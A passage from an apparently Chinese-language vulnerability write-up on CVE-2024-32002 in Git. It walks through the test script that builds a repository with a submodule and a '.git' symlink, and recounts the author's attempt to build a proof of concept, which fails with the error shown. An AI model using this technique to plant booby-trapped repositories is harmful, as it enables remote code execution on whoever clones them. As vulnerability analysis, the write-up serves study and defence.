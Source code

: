 新建captain仓库（最后git clone的仓库）  
```
hook_repo_path="$(pwd)/hook" &&
git init captain &&
(
    cd captain &&
    git submodule add --name x/y "$hook_repo_path" A/modules/x &&
    test_tick &&
    git commit -m add-submodule &&
    printf .git >dotgit.txt &&
    git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
    printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
    git update-index --index-info <index.info &&
    test_tick &&
    git commit -m add-symlink
) &&
```  
  
  
添加子模块:  
- hook_repo_path设置上面hook仓库的路径，使用git submodule add --name x/y "$hook_repo_path" A/modules/x把hook仓库中的子模块添加到captain仓库中，子模块的名字是 x/y，路径是 A/modules/x  
  
创建符号链接并提交:  
- 创建一个包含文本内容
".git" 的文件 dotgit.txt  
  
- 计算dotgit.txt 文件的哈希值，并将其存储到 Git 对象数据库中  
  
- 创建一个索引信息文件 index.info，其中包含创建一个符号链接（指向 .git 文件内容）的信息  
  
- 使用 git update-index 命令将符号链接的信息添加到
Git 索引中  
  
- 提交这个符号链接的添加  
  
  
**运行测试**  
```
test_path_is_missing "$tell_tale_path" &&
test_must_fail git clone --recursive captain hooked 2>err &&
grep "directory not empty" err &&
test_path_is_missing "$tell_tale_path"
```  
  
这部分我们构造poc需要做的就是git clone --recursive captain
hooked 2>err &&  
  
  
构造POC  
  
经过上面的详细分析，如何构造poc也就一目了然了。当我尝试构造poc后，会出现报错:  
```
$ git clone
--recursive git@github.com:10cks/CVE-2024-32002-submod.git test
Cloning into 'test'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0
Receiving objects: 100% (8/8), done.
Resolving deltas: 100% (1/1), done.
warning: the following paths have collided (e.g. case-sensitive paths
on a case-insensitive filesystem) and only one from the same
colliding group is in the working tree:

  'a'
Submodule 'x/y' (git@github.com:10cks/CVE-2024-32002-hulk.git) registered for path 'A/modules/x'
fatal: could not create leading directories of 'D:/CVE-2024-32002/RCE/test/A/modules/x': Not a directory
```